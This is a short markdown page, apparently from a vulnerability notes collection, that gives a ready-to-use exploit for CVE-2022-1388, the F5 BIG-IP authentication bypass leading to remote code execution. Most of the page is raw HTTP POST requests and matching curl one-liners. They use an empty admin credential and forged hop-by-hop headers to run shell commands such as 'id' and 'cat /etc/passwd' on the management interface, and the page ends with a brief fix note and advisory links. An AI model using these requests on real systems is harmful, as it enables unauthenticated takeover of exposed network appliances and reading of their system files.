 https://www.iculture.cc/cybersecurity/pig=21358

修复建议：

加waf，尽快更新系统框架



## CVE-2022-1388（F5 BIG-IP Remote Code Execution）

```
# F5 BIG-IP RCE exploitation (CVE-2022-1388)

POST (1): 

POST /mgmt/tm/util/bash HTTP/1.1
Host: <redacted>:8443
Authorization: Basic YWRtaW46
Connection: keep-alive, X-F5-Auth-Token
X-F5-Auth-Token: 0

{"command": "run" , "utilCmdArgs": " -c 'id' " }

curl commandliner: 

$ curl -i -s -k -X $'POST'
-H $'Host: <redacted>:8443' 
-H $'Authorization: Basic YWRtaW46' 
-H $'Connection: keep-alive, X-F5-Auth-Token' 
-H $'X-F5-Auth-Token: 0' 
-H $'Content-Length: 52' 
--data-binary $'{\"command\": \"run\" , \"utilCmdArgs\": \" -c \'id\' \" }\x0d\x0a'
$'https://<redacted>:8443/mgmt/tm/util/bash' --proxy http://127.0.0.1:8080


POST (2):

POST /mgmt/tm/util/bash HTTP/1.1
Host: <redateced>:8443
Authorization: Basic YWRtaW46
Connection: keep-alive, X-F5-Auth-Token
X-F5-Auth-Token: 0

{"command": "run" , "utilCmdArgs": " -c ' cat /etc/passwd' " }

curl commandliner:

$ curl -i -s -k -X $'POST'
-H $'Host: <redacted>:8443' 
-H $'Authorization: Basic YWRtaW46' -H $'Connection: keep-alive, X-F5-Auth-Token' 
-H $'X-F5-Auth-Token: 0'
--data-binary $'{\"command\": \"run\" , \"utilCmdArgs\": \" -c \' cat /etc/passwd\' \" }\x0d\x0a\x0d\x0a'
$'https://<redacted>/mgmt/tm/util/bash' --proxy http://127.0.0.1:8080

Note: 

Issue could be related between frontend and backend authentication "Jetty" with empty credentials "admin: <empty>" 
+ value of headers ,see "HTTP hop_by_hop request headers"...

References and Fixes :
* https://support.f5.com/csp/article/K23605346
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-1388

```